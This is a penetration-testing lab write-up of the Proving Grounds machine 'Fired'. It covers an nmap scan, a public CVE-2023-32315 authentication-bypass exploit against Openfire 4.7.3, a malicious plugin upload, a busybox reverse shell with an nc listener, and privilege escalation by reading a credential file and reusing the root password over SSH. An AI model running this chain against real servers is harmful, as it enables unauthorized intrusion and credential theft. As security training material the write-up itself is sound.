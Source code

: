 ```yaml
---
date: '2025-03-16'
before : '2025-03-15'
after : '2025-03-16'
title: 'Proving Grounds : Fired'
categories: [ 'proving_grounds', 'pentest', 'ENG']
summary: 'Solving Fired machine from Proving Grounds'
thumbnail: '../contentImages/fired/1.png'
---
```


## 1. Initial Foothold

Starting nmap scan, we found:
```
┌──(hlee㉿kali)-[~]
└─$ sudo nmap 192.168.190.96 -p- -sS -T4                                                             
[sudo] password for hlee: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-16 04:45 EDT
Nmap scan report for 192.168.190.96
Host is up (0.025s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
9090/tcp open  zeus-admin
9091/tcp open  xmltec-xmlmail

Nmap done: 1 IP address (1 host up) scanned in 88.36 seconds

```

There are some suspicious ports. Let's dig deeper.

```
PORT     STATE SERVICE             VERSION                                                                          
9090/tcp open  hadoop-tasktracker  Apache Hadoop      
| hadoop-tasktracker-info:                 
|_  Logs: jive-ibtn jive-btn-gradient          
| hadoop-datanode-info:                   
|_  Logs: jive-ibtn jive-btn-gradient               
|_http-title: Site doesn't have a title (text/html).                                                                
9091/tcp open  ssl/hadoop-datanode Apache Hadoop     
| ssl-cert: Subject: commonName=localhost        
| Subject Alternative Name: DNS:localhost, DNS:*.localhost      
| Not valid before: 2024-06-28T07:02:39    
|_Not valid after:  2029-06-27T07:02:39                                                                    
|_ssl-date: TLS randomness does not represent time
|_http-title: Site doesn't have a title (text/html).
| hadoop-datanode-info: 
|_  Logs: jive-ibtn jive-btn-gradient
| hadoop-tasktracker-info: 
|_  Logs: jive-ibtn jive-btn-gradient
```

So, it's hadoop application. (9091 is datanode for 9090 I guess)
I've seen it before but can't quite remember what it was.

> **Apache Hadoop** is a collection of open-source software utilities for reliable, scalable, [distributed computing](https://en.wikipedia.org/wiki/Distributed_computing "Distributed computing"). It provides a [software framework](https://en.wikipedia.org/wiki/Software_framework "Software framework") for [distributed storage](https://en.wikipedia.org/wiki/Clustered_file_system "Clustered file system")...

Let's try visiting it.

- port 9090
![image](../contentImages/fired/1.png)

Okay, we have openfire with version number 4.7.3

I found this site: 

> https://github.com/miko550/CVE-2023-32315

```
┌──(.venv)─(hlee㉿kali)-[~/oscp/offsec/fired/CVE-2023-32315]
└─$ python CVE-2023-32315.py -t http://192.168.190.96:9090                   


 ██████╗██╗   ██╗███████╗    ██████╗  ██████╗ ██████╗ ██████╗      ██████╗ ██████╗ ██████╗  ██╗███████╗
██╔════╝██║   ██║██╔════╝    ╚════██╗██╔═████╗╚════██╗╚════██╗     ╚════██╗╚════██╗╚════██╗███║██╔════╝
██║     ██║   ██║█████╗█████╗ █████╔╝██║██╔██║ █████╔╝ █████╔╝█████╗█████╔╝ █████╔╝ █████╔╝╚██║███████╗
██║     ╚██╗ ██╔╝██╔══╝╚════╝██╔═══╝ ████╔╝██║██╔═══╝  ╚═══██╗╚════╝╚═══██╗██╔═══╝  ╚═══██╗ ██║╚════██║
╚██████╗ ╚████╔╝ ███████╗    ███████╗╚██████╔╝███████╗██████╔╝     ██████╔╝███████╗██████╔╝ ██║███████║
 ╚═════╝  ╚═══╝  ╚══════╝    ╚══════╝ ╚═════╝ ╚══════╝╚═════╝      ╚═════╝ ╚══════╝╚═════╝  ╚═╝╚══════╝
                                                                                                       
Openfire Console Authentication Bypass Vulnerability (CVE-2023-3215)
Use at your own risk!

[..] Checking target: http://192.168.190.96:9090
Successfully retrieved JSESSIONID: node01krifotemwe5269ctv6c229ep49.node0 + csrf: PpM8kjnO9TgY5JQ
User added successfully: url: http://192.168.190.96:9090 username: vxqw6e password: z4rnpn

```

I tried to log in with credential.
![image](../contentImages/fired/2.png)

Succeed. This version also includes the file(plugin) upload vulnerability. Let's upload plugin (following the steps from the link above) and proceed.
![image](../contentImages/fired/3.png)

This machine is slow as hell. I really wanted to use metasploit module, but since this vulnerability was quite interesting, I just waited and waited...
![image](../contentImages/fired/4.png)

Password should be 123 if you followed steps above.
![image](../contentImages/fired/5.png)

Done. Let's get revshell and continue with privilege escalation.

I tried a lot for revshell, then busybox(this is the first time I've ever used that) gave me a hit.

```
┌──(hlee㉿kali)-[~]
└─$ nc -lvnp 80  
listening on [any] 80 ...
connect to [192.168.45.233] from (UNKNOWN) [192.168.190.96] 43900
whoami
openfire
```

## 2. Privilege Escalation

I had no fun since this was **pure credential hunting**. I couldn't find any other vector so I just started brute forcing all the scripts and files which might have passwords in it.

Then, this gave me a hit:

```
cat /var/lib/openfire/embedded-db/openfire.script
```

There was root credential in this file, which might have been reused for ssh:
```
INSERT INTO OFPROPERTY VALUES('mail.smtp.password','OpenFireAtEveryone',0,NULL)                                     
INSERT INTO OFPROPERTY VALUES('mail.smtp.port','25',0,NULL)                                                         
INSERT INTO OFPROPERTY VALUES('mail.smtp.ssl','false',0,NULL)                                                       
INSERT INTO OFPROPERTY VALUES('mail.smtp.username','root',0,NULL)   
```

And yes, it succeed.

```
root@openfire:~# whoami
root
```

Actually, after looking at other's writeup, the path to this credential file should have been popped with env command. But in my case (another day of offsec machine I guess), env was empty.

I really hope that this kind of privesc vector does not show up in the real exam.



